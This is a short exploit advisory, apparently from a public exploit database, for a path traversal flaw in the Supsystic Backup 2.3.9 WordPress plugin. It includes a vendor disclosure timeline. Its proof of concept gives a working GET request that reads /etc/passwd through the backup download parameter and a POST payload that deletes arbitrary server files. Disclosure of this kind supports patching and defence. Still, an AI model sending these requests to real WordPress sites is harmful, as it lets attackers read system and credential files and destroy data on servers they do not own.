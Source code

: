 EXP
---

    # Exploit Title: WordPress Plugin Supsystic Backup 2.3.9 - Local File Inclusion
    # Date: 24/07/2020
    # Exploit Author: Erik David Martin
    # Vendor Homepage: https://supsystic.com/
    # Software Link: https://downloads.wordpress.org/plugin/backup-by-supsystic.zip
    # Version: 2.3.9
    # Tested on: Ubuntu 16.04.6 LTS / WordPress 5.4.2


    # 25/07 2020: Vendor notified
    # 27/07 2020: Vendor requested detailed information
    # 27/07 2020: Information provided
    # 07/08 2020: Nudged vendor. No reply
    # 22/08 2020: Nudged vendor. No reply
    # 04/10 2020: Nudged vendor. No reply.
    # 29/11 2020: WordPress Plugin Security team contacted
    # 01/12 2020: Plugin/Project closed by WordPress Security team


    # 1. Description

    Changing the path when downloading the stored backup allows an attacker to both read and delete internal system files (LFI).


    # 2. Proof of Concept (PoC)

    Create a backup. When downloading the backup, change its path:

    GET http://192.168.0.49/wp-admin/admin.php?page=supsystic-backup&tab=bupLog&download=../../../../../../../../../etc/passwd


    The "Delete" tab also allows an attacker to delete files on the server:

    POST http://192.168.0.49/wp-admin/admin.php?page=supsystic-backup&tab=bupLog
    Payload: reqType=ajax&page=backup&action=removeAction&filename=[FILE PATH]&deleteLog=1&pl=bup